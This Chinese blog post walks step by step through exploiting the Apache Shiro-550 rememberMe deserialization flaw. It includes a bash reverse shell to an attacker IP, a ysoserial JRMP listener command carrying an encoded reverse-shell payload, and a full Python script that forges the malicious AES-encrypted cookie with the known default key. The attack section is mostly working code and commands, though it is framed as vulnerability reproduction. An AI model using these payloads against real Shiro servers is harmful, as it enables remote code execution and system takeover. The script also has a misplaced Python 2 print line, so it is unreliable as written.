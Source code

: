 ```yaml
---
title: Shiro rememberMe反序列化漏洞(Shiro-550)复现
top: false
cover: http://image.geoer.cn/shiro1.jpg
categories:
- 渗透测试
tags:
- Shiro反序列化
- 漏洞复现
abbrlink: 40239
date: 2020-11-13 14:02:25
keywords:
summary:
img:
password:
---
```


### 漏洞原理

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
**Payload产生的过程：**
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload构造起来也是十分的简单。

### 影响版本

Apache Shiro < 1.2.4



### 特征判断

返回包中包含`rememberMe=deleteMe`字段



### 演示

> 文中的配图有点不一致，别介意，环境问题



#### 系统界面如图

<img src="http://image.geoer.cn/shiro1.jpg"></img>



#### 抓包查看

可以看到是Shiro

<img src="http://image.geoer.cn/shiro2.jpg"></img>

#### 1.检查是否存在默认的key

工具链接：https://github.com/insightglacier/Shiro_exploit

```bash
python shiro_exploit.py -u http://<IP>:7080
```

检测的key保存下来一会用



#### 2.制作反弹shell代码

2.1 vps监听端口

```bash
nc -lvvp 7788
```

<img src="http://image.geoer.cn/shiro3.jpg"></img>

2.2 Java Runtime 配合 bash 编码，
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

```bash
bash -i >& /dev/tcp/202.xx.xx.xx/7788 0>&1	# ip为攻击机的地址
```

<img src="http://image.geoer.cn/shiro4.jpg"></img>

#### 3.通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令

上一步的反弹shell的命令编码结果写到下面

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 'bash -c {echo,YmFzaCAtxxxxxxzYuxxxxxxxxxxxxQ==}|{base64,-d}|{bash,-i}'	# 这里用的CommonsCollections4
```

<img src="http://image.geoer.cn/shiro5.jpg"></img>

#### 4.使用shiro.py 生成Payload

```bash
python shiro.py 122.xx.xx.xx:6666
```

<img src="http://image.geoer.cn/shiro6.jpg"></img>

其中shiro.py代码如下：

```bash
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections6', command], stdout=subprocess.PIPE)	# 这里要注意用哪个JRMPClient
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("fCq+/xW488hMTCD+cmJ3aQ==")	# 这里的key要提前枚举出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())


```



#### 5.构造数据包，伪造cookie，发送Payload.

<img src="http://image.geoer.cn/shiro7.jpg"></img>

#### 6.nc监听端口，shell成功反弹

<img src="http://image.geoer.cn/shiro8.jpg"></img>

------



PS：[后来发现这个好用的工具](https://github.com/feihong-cs/ShiroExploit)，一键检测&getshell，好用极了



> 我应该去学学java编程了，看大佬们写的各种工具，羡慕极了